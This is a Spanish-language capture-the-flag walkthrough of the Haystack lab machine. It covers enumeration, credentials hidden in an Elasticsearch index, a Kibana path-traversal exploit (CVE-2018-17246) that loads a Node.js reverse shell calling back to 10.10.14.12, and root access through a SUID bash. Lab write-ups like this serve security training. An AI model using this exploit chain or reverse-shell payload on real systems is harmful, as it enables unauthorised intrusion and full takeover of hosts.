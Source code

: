# Máquina Haystack

### Intrusión

Comenzamos con nuestros comandos de nmap

```
sudo nmap -p- --open -sS -n -Pn --min-rate 5000 -vvv 10.10.10.115 -oG allPorts
```
```
sudo nmap -p22,80,9200 -sCV 10.10.10.115 -oN Targeted
```
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-21 23:39 CEST
Nmap scan report for 10.10.10.115
Host is up (0.042s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 2a8de2928b14b63fe42f3a4743238b2b (RSA)
|   256 e75a3a978e8e728769a30dd100bc1f09 (ECDSA)
|_  256 01d259b2660a9749205f1c84eb81ed95 (ED25519)
80/tcp   open  http    nginx 1.12.2
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.12.2
9200/tcp open  http    nginx 1.12.2
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (application/json; charset=UTF-8).
| http-methods: 
|_  Potentially risky methods: DELETE

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.39 seconds
```
Encontramos una imagen al entrar en el puerto 80

Nos la descargamos y la movemos a nuestro directorio de trabajo
```
mv ~/Downloads/Descargas/needle.jpg .
```

Si usamos exiftool no encontramos gran cosa:


*ExifTool Version Number         : 12.16*
*File Name                       : needle.jpg*
*Directory                       : .*
*File Size                       : 179 KiB*
*File Modification Date/Time     : 2023:04:21 23:42:24+02:00*
*File Access Date/Time           : 2023:04:21 23:42:24+02:00*
*File Inode Change Date/Time     : 2023:04:21 23:42:38+02:00*
*File Permissions                : rw-r--r--*
*File Type                       : JPEG*
*File Type Extension             : jpg*
*MIME Type                       : image/jpeg*
*JFIF Version                    : 1.01*
*Exif Byte Order                 : Big-endian (Motorola, MM)*
*X Resolution                    : 96*
*Y Resolution                    : 96*
*Resolution Unit                 : inches*
*Software                        : paint.net 4.1.1*
*User Comment                    : CREATOR: gd-jpeg v1.0 (using IJG JPEG v80), quality = 90.*
*Image Width                     : 1200*
*Image Height                    : 803*
*Encoding Process                : Baseline DCT, Huffman coding*
*Bits Per Sample                 : 8*
*Color Components                : 3*
*Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)*
*Image Size                      : 1200x803*
*Megapixels                      : 0.964*


Si aplicamos el comando string sin embargo:

```
strings -n 10 needle.jpg
```
Encontramos una cadena en base 64:

*bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==*

La decodeamos:

```
echo 'bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==' | base64 -d
```

Y encontramos que: `"la aguja en el pajar es "clave"%"`

Aplicando fuzzing en el puerto 80 no encontramos nada

Sin embargo en el puerto 9200:

```
wfuzz -c -t 200 --hc=404 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.115:9200/FUZZ
```

*000000687:   200        0 L      1 W        338 Ch      "quotes"*

*000003642:   200        0 L      1 W        1010 Ch     "bank"*

*000007004:   200        0 L      1 W        2 Ch        "*checkout*"*    

*000016413:   200        0 L      1 W        4136 Ch     "*"*   

*000015463:   200        0 L      1 W        2 Ch        "*docroot*"*

Con una búsqueda de la tecnología que esta usando la API `Elasticsearch`, encontramos un método para listar todo el contenido de /quotes:

```
http://10.10.10.115:9200/quotes/_search?pretty=true&size=1000
```

Hay muchas líneas, quiero ver si de verdad hay una "key" o "clave" en el pajar:

```
curl 'http://10.10.10.115:9200/quotes/_search?pretty=true&size=1000' > haystack.txt
```

```
cat haystack.txt| grep "clave"
```
Encontramos cosas:

*"quote" : "Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk="*

*"quote" : "Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg "*

Si las decodeamos:

```
❯ echo 'cGFzczogc3BhbmlzaC5pcy5rZXk=' | base64 -d
```

`pass: spanish.is.key%`

```
❯ echo 'dXNlcjogc2VjdXJpdHkg' |base64 -d
```

`user: security %`

ssh connect

sudo -l nothing

[security@haystack home]$ cat /proc/net/tcp | grep '00000000:0000 0A'
   0: 00000000:0050 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 38071 1 ffff93b16e2407c0 100 0 0 10 0                     
   1: 00000000:23F0 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 38070 1 ffff93b16e240f80 100 0 0 10 0                     
   2: 00000000:0016 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 37910 1 ffff93b16e240000 100 0 0 10 0                     
   3: 0100007F:15E1 00000000:0000 0A 00000000:00000000 00:00000000 00000000   994        0 260693 1 ffff93b16e2464c0 100 0 0 10 0  
0.0.0.0:80
0.0.0.0:9200
0.0.0.0:22
127.0.0.1:5601

ssh> -L 5601:localhost:5601


https://github.com/mpgn/CVE-2018-17246

http://127.0.0.1:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../tmp/kraken.js

[security@haystack tmp]$ cat kraken.js 
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "10.10.14.12", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
[security@haystack tmp]$ ls
hsperfdata_root  systemd-private-0e42240d40d449479f1827df5cdc85f1-chronyd.service-uWVFDs	vmware-root
jruby-6234	systemd-private-0e42240d40d449479f1827df5cdc85f1-elasticsearch.service-ux1hQZ	vmware-root_6238-700485133
kraken.js	systemd-private-0e42240d40d449479f1827df5cdc85f1-nginx.service-McmzxV
[security@haystack tmp]$ cat kraken.js 
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "10.10.14.12", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();



bash-4.2$ ls -la /bin/bash
-rwsr-xr-x. 1 root root 964608 oct 30  2018 /bin/bash

bash -p
whoami
root
